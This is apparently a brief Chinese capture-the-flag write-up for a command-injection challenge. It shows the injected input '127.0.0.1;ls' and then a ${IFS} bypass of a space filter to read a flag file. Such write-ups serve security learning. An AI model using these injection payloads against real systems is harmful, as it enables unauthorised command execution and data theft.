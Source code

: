 试一下

```
127.0.0.1;ls
```

![image-20240124122858771](照片/image-20240124122858771.png)

可以执行命令

![image-20240124122919293](照片/image-20240124122919293.png)

提示就过滤了空格

构建命令

```
127.0.0.1;cat${IFS}fllllaaag.php
```
